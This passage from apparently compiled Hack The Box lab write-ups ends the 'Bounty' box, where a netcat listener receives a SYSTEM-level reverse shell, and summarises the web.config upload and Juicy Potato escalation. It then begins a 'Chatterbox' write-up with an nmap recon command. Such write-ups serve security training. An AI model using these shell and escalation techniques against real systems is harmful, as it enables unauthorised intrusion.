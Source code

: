 We get a shell back with SYSTEM privileges!

```text
root@kali:~/Desktop/tools/potatos# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.93] 49175
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.PS C:\Windows\system32>whoami
nt authority\system
```

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/658/1*XDRfGjfp9YG8WsO-Qdb_vA.png)

## Lessons Learned <a id="23a3"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Insufficient input validation. The upload functionality of the website had insufficient validation on the type of files that can be uploaded. Therefore, we were able to upload a web.config file that contained ASPX code to gain an initial foothold on the system. Proper input validation checks should be put in place on all user input.

To escalate privileges we didn’t necessarily exploit a vulnerability but an intended design of how Microsoft handles tokens. So there’s really not much to do there but put extra protections in place for these sensitive accounts. That’s not to say that this box was not vulnerable to a bunch of kernel exploits. We saw that it is a Windows 2008 OS that has no patches installed. So if we didn’t escalate privileges using Juicy Potato, we could have easily done so using the many kernel exploits that this box is vulnerable to.

# -------------------------------FIN-------------------------------------
# ----------------------DEBUT------------------------------
chatterbox-writeup-w-o-metasploit.md
# Chatterbox Writeup w/o Metasploit

![](https://miro.medium.com/max/597/1*9HpPZa8NMVpxMHQTxybI6g.png)

## Reconnaissance <a id="8cb6"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.74 All
```

* **All**: Runs all the scans consecutively.
